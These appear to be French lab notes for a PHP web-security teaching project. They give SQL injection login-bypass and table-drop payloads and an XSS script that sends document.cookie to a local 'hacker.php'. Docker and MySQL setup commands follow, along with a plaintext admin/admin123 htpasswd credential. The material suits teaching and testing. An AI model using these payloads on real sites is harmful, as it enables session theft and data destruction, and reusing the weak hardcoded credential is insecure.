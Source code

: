 sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost/php-security/xss/hacker.php?cookie='+escape(document.cookie)</script>



sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1.


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost:81/xss/hacker.php?cookie='+escape(document.cookie)</script>


------------------------------------------------
#clonner le projet
git clone https://github.com/achrafnh/php-secu.git
cd php-secu

#lancer le projet
docker-compose up -d 

#verivier que les containers snt creer 

docker ps 

#acceder a mysql en CLI 

docker exec -it mysql bash 

# pour se connecter la base le user et le password et sur .env  
mysql -u root -p
show databses;
use dbtest;
show tables;



pour arrete le projet 

docker-compose down

#ou cas ou le projet et deja cloner 
git pull


#htacces htpasswd
admin 
admin123



=============================Docker======================

docker login 

docker build . -t node-application


docker tag node-application hrefnhaila/node-application:1.1.2


docker push  hrefnhaila/node-application:1.1.2

